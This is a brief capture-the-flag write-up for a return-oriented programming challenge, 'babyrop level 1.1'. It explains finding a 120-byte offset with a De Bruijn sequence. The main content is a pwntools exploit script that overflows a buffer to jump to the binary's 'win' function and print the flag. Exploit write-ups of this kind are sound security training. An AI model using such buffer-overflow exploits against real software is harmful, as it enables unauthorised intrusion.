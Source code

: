 # Return Oriented Programming 1.1

Similar to level 1.0, however the file didn't provide us with the offset. Using De'Bruijn sequence, we found that the offset is 120.

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level1.1")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 120

payload = flat(
    b'A' * offset,
    elf.sym['win']
)

io.sendline(payload)

io.recvuntil(b'flag:\n')
print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Level1.1.png]]